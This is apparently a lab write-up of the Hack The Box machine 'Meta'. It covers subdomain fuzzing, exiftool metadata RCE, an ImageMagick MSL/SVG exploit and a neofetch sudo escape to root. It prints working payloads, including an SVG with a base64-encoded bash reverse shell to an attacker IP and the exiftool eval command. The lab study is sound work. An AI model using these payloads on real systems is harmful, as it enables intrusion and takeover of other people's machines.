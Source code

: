 # Meta

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.204.20
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 14:51 EDT
Nmap scan report for 10.129.204.20
Host is up (0.0076s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We have to add `artcorp.htb` to our `/etc/hosts` file to view port 80.

### ArtCorp --> Subdomain Fuzzing

The webpage was a start-up website:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

They had a team with some names I might need to use, along with a hint that this was a PHP based website.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

There wasn't much on the website, so we can try `gobuster` scanning for directories and `wfuzz` scanning for sub-domains. A `gobuster` scan reveals nothing, but the `wfuzz` scan did reveal one sub-domain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.artcorp.htb' --hw=0 -u http://artcorp.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://artcorp.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000004177:   200        9 L      24 W       247 Ch      "dev01"
```

Here's the webpage:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Metadata RCE

The application allows us to upload images to the machine.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Wneh an image is uploaded, the metadata of the image is printed on screen below:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

This was the output of `exiftool`, which has some RCE attacks possible through metadata.&#x20;

{% embed url="https://github.com/OneSecCyber/JPEG_RCE" %}

By following the PoC, I was able to confirm that we had RCE on the machine:

```bash
exiftool -config eval.config runme.jpg -eval='system("ls -la")' 
# upload runme.jpg
```

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

For some reason, the above PoC doesn't let me execute reverse shells. So I changed the script used to this:

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

After changing the `exploit.py` file to have the correct port and IP address, I got a reverse shell.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We cannot grab the user flag yet.&#x20;

### Morgify

There wasn't much on the machine that `www-data` could access. So I downloaded `pspy64` onto the machone to view processes executed by `root` and the user `thomas`.

There was a script run by the user:

```
2023/05/07 09:37:01 CMD: UID=1000 PID=1335   | /usr/sbin/CRON -f 
2023/05/07 09:37:01 CMD: UID=1000 PID=1336   | /bin/bash /usr/local/bin/convert_images.sh 
2023/05/07 09:37:01 CMD: UID=1000 PID=1338   | /bin/bash /usr/local/bin/convert_images.sh 
2023/05/07 09:37:01 CMD: UID=0    PID=1337   | /usr/sbin/CRON -f 
2023/05/07 09:37:01 CMD: UID=0    PID=1339   | /bin/sh -c rm /tmp/* 
2023/05/07 09:37:01 CMD: UID=1000 PID=1340   | pkill mogrify
```

Here's the script:

{% code overflow="wrap" %}
```bash
www-data@meta:/tmp$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```
{% endcode %}

`mogrify` was used, and it is an image editor that is part of ImageMagick. We can first find the version of ImageMagick used here:

```
www-data@meta:/tmp$ mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

Interesting. There are some RCE exploits pertaining to this:

{% embed url="https://www.cybersecurity-help.cz/vdb/SB2020121303" %}

{% embed url="https://github.com/coco0x0a/CVE-2020-29599" %}

How the exploit works is thorugh embedding XML code within an SVG file. Here's the SVG file I used:

```markup
<image authenticate='ff" `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:exploit.svg" height="100" width="100"/>
  </svg>
</image>
```

This uses a base64 encoded `bash` one-liner reverse shell. After waiting for a little bit, we should get a shell as `thomas`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Neofetch

When we check `sudo` privileges, we see the following:

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

GTFOBins does have a command for this binary, but it doesn't work:

```bash
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF
```

Then, I noticed the `XDG_CONFIG_HOME` environment variable. The exploit above relies on changing the configuration files for `neofetch`. In this case, since we cannot specify any flags, we can just create a malicious configuration file that would give us a root shell.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
